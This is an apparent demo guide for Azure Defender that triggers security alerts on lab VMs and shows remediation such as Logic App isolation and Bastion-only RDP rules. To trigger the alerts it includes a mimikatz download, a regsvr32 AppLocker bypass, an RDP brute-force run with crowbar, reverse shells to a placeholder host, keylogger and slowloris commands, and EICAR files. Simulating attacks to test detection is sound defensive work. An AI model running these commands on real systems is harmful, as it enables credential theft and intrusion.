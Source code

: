 # Infrastructure demo

## Posture management - secure score, best practicies, vulnerabilities
### Vulnerabilities
Check vulnerabilities found in VMs (by Qualys engine), container images, storage accounts, recommended security configurations.

### Policies - VMs, Kubernetes, Policy as Code
- Explain policy as code principles
- In policy definitions show examples:
    - Azure policy -> search for:
        - locations
        - backup
        - encrypt
        - firewall
        - logs
    - OS level policies -> search for audit
    - Containers and Kubernetes policies -> search for container
- Search for initiatives such as ISO 27001
- Remediations
- Blueprints

## Threat protection and automation

### Windows Host level protection
```powershell
Invoke-AzVMRunCommand -ResourceGroupName 'azdefender' -VMName 'azdefender-vm' -CommandId 'RunPowerShellScript' -ScriptPath 'scripts/infraAttackSimulationFromWindows.ps1' 
```


Search for alerts such as suspicious process or RDP attack.

To generate some alerts, you can run the following on monitored VM.

```powershell
# Create file with malware test content
'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | Out-File EICAR.com

# Copy svchost.exe to non-standard location and execute it
Copy-Item -Path C:\Windows\System32\svchost.exe C:\
C:\svchost.exe

# Download and expand mimikatz
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20200918-fix/mimikatz_trunk.zip","c:\install\mimikatz_trunk.zip")
cd c:\install
Expand-Archive -LiteralPath 'c:\install\mimikatz_trunk.zip'

# Attempt to bypass App Locker
echo '<?XML version="1.0"?>' | Out-File test.sct
echo '<scriptlet>' | Out-File -Append test.sct
echo '<registration' | Out-File -Append test.sct
echo ' progid="TESTING"' | Out-File -Append test.sct
echo ' classid="{A1112221-0000-0000-3000-000DA00DABFC}" >' | Out-File -Append test.sct
echo ' <script language="JScript">' | Out-File -Append test.sct
echo ' <![CDATA[' | Out-File -Append test.sct
echo ' var foo = new ActiveXObject("WScript.Shell").Run("powershell.exe InvokeWebRequest -OutFile eicar.com http://www.eicar.org/download/eicar.com");' | Out-File -Append test.sct
echo ' ]]>' | Out-File -Append test.sct
echo '</script>' | Out-File -Append test.sct
echo '</registration>' | Out-File -Append test.sct
echo '</scriptlet>' | Out-File -Append test.sct
regsvr32.exe /s /u /i:test.sct scrobj.dll
```

From Linux machine initiate RDP brute force attack. 

```bash
# Download 500 worst passwords dictionary
wget http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2
bzip2 -d 500-worst-passwords.txt.bz2

# Install crowbar and run RDP dictionary attack
sudo apt install -y ubuntu-desktop nmap openvpn freerdp-x11 tigervnc-viewer python3 python3-pip

git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt

./crowbar.py -b rdp -u administrator -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n1
./crowbar.py -b rdp -u tomas -C ../500-worst-passwords.txt -s 10.0.0.4/32 -v -D -n 1
./crowbar.py -b rdp -u tomas -c Azure12345678 -s 10.0.0.4/32 -v -D -n 1
```

Use automation to isolate RDP access (Logic App with NSG). Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

1. Open Alert that includes attacker IP (eg. RDP brute force attack)
2. In portal show VM blade with Networking - RDP from inside VNET is allowed without restrictions
3. Take action on alert by invoking isolateVm Logic App
4. Check VM blade again for blocking rule on Networking
5. You will also receive email message

As preventive measure consider no direct access to machines at all, only privileged access workstation (jump server) such as Azure Bastion. Configure Network Security Group to enable RDP access only from Bastion service and demonstrate Bastion via browser on Azure portal.

```powershell
$resourceGroupName = "azdefender"
$nsgName="azdefender-nsg"
$bastionSourceRange="10.0.1.0/24"

# Get the NSG resource
$nsg = Get-AzNetworkSecurityGroup -Name $nsgName -ResourceGroupName $resourceGroupName

# Add the inbound security rule to allow RDP from Bastion subnet
$nsg | Add-AzNetworkSecurityRuleConfig -Name "AllowRdpFromBastion" -Description "Allow RDP from Bastion subnet" -Access Allow `
    -Protocol Tcp -Direction Inbound -Priority 150 -SourceAddressPrefix $bastionSourceRange -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Add the inbound security rule to deny all other RDP access
$nsg | Add-AzNetworkSecurityRuleConfig -Name "DenyAllRdp" -Description "Deny all RDP access" -Access Deny `
    -Protocol Tcp -Direction Inbound -Priority 151 -SourceAddressPrefix "*" -SourcePortRange * `
    -DestinationAddressPrefix * -DestinationPortRange 3389

# Update the NSG.
$nsg | Set-AzNetworkSecurityGroup
```

### Linux Host level protection
Generate suspicious activity on Linux VM.

```bash
# Attempt to create revese shell
nc -e /bin/bash 1.2.3.4 1234
bash -i>& /dev/tcp/1.2.3.4/1234 0>&1

# Add and remove kernel module
# sudo insmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 
# sudo rmmod /lib/modules/5.4.0-1031-azure/kernel/drivers/firewire/nosy.ko 

# Run questionable tools
logkeys --start
perl slowloris.pl -dns server.contoso.com

# Store malware file
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > ./EICAR.com
```

Check alert in Azure Defender.

### Storage protection
As per demo install instructions (README.md) we have already uploaded EICAR test malware file to blob storage.

Before running this demo go to connectors or inside Logic App and authorize connections to Office365.

Demonstrate blob malware automation:
1. Open alerts that malware was detected in Blob Storage
2. Open Blob Storage and show files is there
3. Click on alert and take action by executing azdefenderDeleteBlob Logic App
4. You will receive email - click on delete button
5. Show file has been deleted, yet is recoverable due to Soft Delete feature
6. Show confirmation email

### Kubernetes protection
Open Azure Cloud Shell (bash) and install few resources that run privileged container, create new highly privileged role and create new cluster-role binding on admin.

```powershell
$resourceGroupName = "azdefender"
Import-AzAksCredential -ResourceGroupName $resourceGroupName -Name $(Get-AzResourceGroupDeployment -ResourceGroupName $resourceGroupName -Name azdefender-infra).outputs.kubeName.Value -Force

kubectl apply -f https://raw.githubusercontent.com/tkubica12/azdefender-demo/master/kubernetes/resources.yaml 
```

After some time check alerts in Azure Defender.

